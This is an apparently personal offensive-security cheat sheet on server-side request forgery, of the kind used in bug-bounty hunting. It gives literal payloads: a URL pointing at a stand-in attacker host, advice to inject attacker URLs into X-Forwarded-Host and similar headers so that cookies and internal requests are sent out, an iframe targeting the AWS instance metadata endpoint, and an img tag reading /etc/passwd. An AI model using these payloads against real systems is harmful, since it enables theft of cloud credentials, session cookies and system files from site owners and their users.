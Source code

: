 # SSRF


payload : `www.attacker.com/?`    <-- https://hackerone.com/reports/2442626

Use [[Certbot]] to make our http server to https to allow target website to ping our attacker hosted website.

### Blind SSRF

X-Forwarded-Host, X-Forwarded-For, X-HOST etc,

Add this header in the request followed by our attacker URL. 

it will send cookies, internal requests, IP. To our server.

SVG  `https://github.com/allanlw/svg-cheatsheet`

#####  AWS Meta Data Service 
SSRF -> AWS Metadata Service
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
`<iframe src="http://169.254.169.254/latest/meta-data/"></iframe>`
`<img src="file:///etc/passwd">`